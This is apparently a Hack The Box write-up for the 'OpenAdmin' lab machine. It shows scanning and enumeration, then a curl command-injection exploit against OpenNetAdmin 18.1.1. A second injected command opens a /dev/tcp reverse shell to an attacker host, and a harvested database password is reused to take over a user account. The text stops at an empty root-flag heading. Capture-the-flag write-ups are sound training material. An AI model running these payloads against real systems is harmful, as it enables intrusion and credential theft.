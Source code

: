 ## Default Information
IP Address: 10.10.10.171\
OS: Linux

## Discovery

Before we start, let's first add the IP address and the host to our ```/etc/hosts``` file.

```
10.10.10.171    openadmin.htb
```
### Masscan
Firstly, we will use masscan to identify the open ports

```
┌──(kali㉿kali)-[~]
└─$ sudo masscan -p1-65535,U:1-65535 10.10.10.171 --rate=1000 -e tun0
[sudo] password for kali: 
Starting masscan 1.3.2 (http://bit.ly/14GZzcT) at 2021-10-31 02:16:56 GMT
Initiating SYN Stealth Scan
Scanning 1 hosts [131070 ports/host]
Discovered open port 22/tcp on 10.10.10.171                                    
Discovered open port 80/tcp on 10.10.10.171   
```

### Nmap
We will then use the open ports obtained from masscan to run a scan using nmap to enumerate the services operating behind each port

| Port Number | Service | Version | State |
|-----|------------------|----------------------|----------------------|
| 22	| ssh | OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0) | Open |
| 80	| http | Apache httpd 2.4.29 ((Ubuntu)) | Open |

Afterwwards, we will use Nmap to scan for potential vulnerabilties on each of the ports

```
{Nmap output}
```

### Gobuster
We will then use Gobuster to find the endpoints that are accessible from http://openadmin.htb

```
http://10.10.10.171:80/.htpasswd            (Status: 403) [Size: 277]
http://10.10.10.171:80/.htpasswd.txt        (Status: 403) [Size: 277]
http://10.10.10.171:80/.htpasswd.html       (Status: 403) [Size: 277]
http://10.10.10.171:80/.htpasswd.php        (Status: 403) [Size: 277]
http://10.10.10.171:80/.htpasswd.asp        (Status: 403) [Size: 277]
http://10.10.10.171:80/.hta.html            (Status: 403) [Size: 277]
http://10.10.10.171:80/.htaccess.php        (Status: 403) [Size: 277]
http://10.10.10.171:80/.htpasswd.aspx       (Status: 403) [Size: 277]
http://10.10.10.171:80/.hta.php             (Status: 403) [Size: 277]
http://10.10.10.171:80/.htaccess            (Status: 403) [Size: 277]
http://10.10.10.171:80/.htpasswd.jsp        (Status: 403) [Size: 277]
http://10.10.10.171:80/.hta.asp             (Status: 403) [Size: 277]
http://10.10.10.171:80/.htaccess.asp        (Status: 403) [Size: 277]
http://10.10.10.171:80/.hta.aspx            (Status: 403) [Size: 277]
http://10.10.10.171:80/.htaccess.aspx       (Status: 403) [Size: 277]
http://10.10.10.171:80/.htaccess.jsp        (Status: 403) [Size: 277]
http://10.10.10.171:80/.hta                 (Status: 403) [Size: 277]
http://10.10.10.171:80/.htaccess.txt        (Status: 403) [Size: 277]
http://10.10.10.171:80/.hta.jsp             (Status: 403) [Size: 277]
http://10.10.10.171:80/.htaccess.html       (Status: 403) [Size: 277]
http://10.10.10.171:80/.hta.txt             (Status: 403) [Size: 277]
http://10.10.10.171:80/artwork              (Status: 301) [Size: 314] [--> http://10.10.10.171/artwork/]
http://10.10.10.171:80/index.html           (Status: 200) [Size: 10918]
http://10.10.10.171:80/sierra               (Status: 301) [Size: 313] [--> http://10.10.10.171/sierra/]
http://10.10.10.171:80/music                (Status: 301) [Size: 312] [--> http://10.10.10.171/music/]
http://10.10.10.171:80/server-status        (Status: 403) [Size: 277]
```

### Web-content discovery

Viewing all the sites, there was not much discovery until we visit http://openadmin.htb/admin. Viewing the page source of the website, we notice a strange ```href``` tag 
that points to ../ona

![ona href link](https://github.com/joelczk/writeups/blob/main/HTB/Images/OpenAdmin/href_ona.png)

Following that link, we are redirected to http;//openadmin.htb/ona which is OpenNetAdmin. From there, we are also able to find the current version of OpenNetAdmin that we are 
using

![ona site](https://github.com/joelczk/writeups/blob/main/HTB/Images/OpenAdmin/ona.png)

## Exploit

### Remote Code Execution on OpenNetAdmin
Using searchsploit, we can find that OpenNetAdmin 18.1.1 is vulnerable to a remote code execution

```
┌──(kali㉿kali)-[~]
└─$ searchsploit opennetadmin 18.1.1
------------------------------------------------------------ ---------------------------------
 Exploit Title                                              |  Path
------------------------------------------------------------ ---------------------------------
OpenNetAdmin 18.1.1 - Command Injection Exploit (Metasploit | php/webapps/47772.rb
OpenNetAdmin 18.1.1 - Remote Code Execution                 | php/webapps/47691.sh
------------------------------------------------------------ ---------------------------------
```

Exploiting this vulnerability, we are able to execute a ```id``` command from the server of OpenNetAdmin

```
┌──(kali㉿kali)-[~]
└─$ curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";id;echo \"END\"&xajaxargs[]=ping" "http://openadmin.htb/ona/" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Obtaining reverse shell

Now, we would have to execute a reverse shell command using the ```curl``` command mentioned above.

```
┌──(kali㉿kali)-[~]
└─$ curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";%2Fbin%2Fbash%20-c%20%27%2Fbin%2Fbash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.16.7%2F3000%200%3E%261%27;echo \"END\"&xajaxargs[]=ping" "http://openadmin.htb/ona/" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
```

Next, all that we have to do is to stabilize the reverse shell

```
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 3000
listening on [any] 3000 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.10.171] 45470
bash: cannot set terminal process group (1245): Inappropriate ioctl for device
bash: no job control in this shell
www-data@openadmin:/opt/ona/www$ python3 -c 'import pty; pty.spawn("/bin/bash")'
<ww$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@openadmin:/opt/ona/www$ export TERM=xterm
export TERM=xterm
www-data@openadmin:/opt/ona/www$ stty cols 132 rows 34
stty cols 132 rows 34
www-data@openadmin:/opt/ona/www$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@openadmin:/opt/ona/www$ 
```
### Obtaining user flag

We realize that there are 2 users on this machine, namely Jimmy and Joanna. However, we do not have the permissions to view the files owned by the 2 users.

```
www-data@openadmin:/home$ ls -la
ls -la
total 16
drwxr-xr-x  4 root   root   4096 Nov 22  2019 .
drwxr-xr-x 24 root   root   4096 Aug 17 13:12 ..
drwxr-x---  5 jimmy  jimmy  4096 Nov 22  2019 jimmy
drwxr-x---  5 joanna joanna 4096 Jul 27 06:12 joanna
```

### Privilege Escalation to Jimmy

We are able to find a database configuration file at /opt/ona/www/local/config/database_settings.inc.php, which shows the database credentials

```
www-data@openadmin:/opt/ona/www/local/config$ cat database_settings.inc.php
cat database_settings.inc.php
<?php

$ona_contexts=array (
  'DEFAULT' => 
  array (
    'databases' => 
    array (
      0 => 
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);

?>www-data@openadmin:/opt/ona/www/local/config$
```

We will try this password to login to the user ```jimmy```, which we managed to do it successfully

```
www-data@openadmin:/opt/ona/www/local/config$ su jimmy     
su jimmy
Password: n1nj4W4rri0R!

jimmy@openadmin:/opt/ona/www/local/config$
```

However, we are still unable to find the user flag. We would probably need to privilege escalate to Joanna to be able to obtain the user flag

```
jimmy@openadmin:~$ cd /home/jimmy
cd /home/jimmy
jimmy@openadmin:~$ ls -la
ls -la
total 32
drwxr-x--- 5 jimmy jimmy 4096 Nov 22  2019 .
drwxr-xr-x 4 root  root  4096 Nov 22  2019 ..
lrwxrwxrwx 1 jimmy jimmy    9 Nov 21  2019 .bash_history -> /dev/null
-rw-r--r-- 1 jimmy jimmy  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 jimmy jimmy 3771 Apr  4  2018 .bashrc
drwx------ 2 jimmy jimmy 4096 Nov 21  2019 .cache
drwx------ 3 jimmy jimmy 4096 Nov 21  2019 .gnupg
drwxrwxr-x 3 jimmy jimmy 4096 Nov 22  2019 .local
-rw-r--r-- 1 jimmy jimmy  807 Apr  4  2018 .profile
jimmy@openadmin:~$
```
### Obtaining root flag
